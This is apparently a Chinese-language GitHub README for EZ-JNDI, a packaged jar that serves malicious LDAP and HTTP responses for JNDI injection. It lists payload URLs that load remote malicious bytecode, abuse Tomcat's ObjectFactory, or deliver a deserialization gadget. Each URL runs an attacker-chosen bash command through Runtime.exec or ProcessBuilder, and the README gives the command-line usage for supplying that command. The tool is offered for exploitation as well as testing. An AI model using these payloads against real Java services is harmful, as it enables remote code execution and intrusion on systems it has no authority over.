 # EZ-JNDI
一键启动JNDI测试/利用环境，目录中的 `ezjndi1.0.jar` 是已经编译好的 jar 包

LDAP Payload：
```text
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令
ldap://{IP}:{Port}/RS/{gadget_name} --> LDAP服务直接返回序列化数据，并使用指定Gadget执行命令

可用Gadget：cck1 ｜ todo...
```

执行命令使用的方式如下（目前支持Linux环境），无需对命令进行base64编码：
```java
Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "{command}"});
new ProcessBuilder(new String[]{"/bin/bash", "-c", "{command}").start();
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

使用截图：

![img.png](img/img.png)

![img.png](img/img2.png)

![img.png](img/img3.png)

TODO:
- 增加gadget
- Windows环境下利用cmd执行命令（`cmd /c {command}`）
---
️备注：由于项目依赖使用了jdk自带的`rt.jar`，其默认不在JVM的 classpath 中，所以如果想修改源代码编译自己的版本，在编译前请修改`pom.xml`，将`<bootclasspath>`标签的值改为自己的`JAVA_HOMOE`：
```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-compiler-plugin</artifactId>
    <version>3.8.1</version>
    <configuration>
        <compilerArguments>
            <verbose />
            <bootclasspath>${java.home}/lib/rt.jar${path.separator}${java.home}/lib/jce.jar${path.separator}${java.home}/lib/jsse.jar</bootclasspath>
        </compilerArguments>
    </configuration>
</plugin>
```
另外，编译的时候请跳过测单元测试：
```text
maven clean package -Dmaven.skip.test=true
```